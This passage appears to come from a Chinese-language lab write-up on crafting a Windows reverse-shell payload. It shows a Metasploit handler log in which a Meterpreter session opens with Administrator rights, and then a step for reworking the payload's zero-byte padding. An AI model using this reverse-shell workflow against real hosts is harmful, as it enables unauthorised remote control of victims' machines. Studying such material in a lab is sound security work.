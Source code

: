 ![](media/7b7ccfb69f47d0f2d8a901f885f2899a.jpg)

**第二次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。  

![](media/a1daafaffa7abc656d309fb8429cbebf.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 9 opened (192.168.1.5:53 ‐> 192.168.1.119:3891) at 2019‐01‐27 14:46:20 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 1232 
```

### 第三次优化payload：

在00000E60起含有大部分000h，充填掉00，在次生成payload。

```bash
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h,
....
```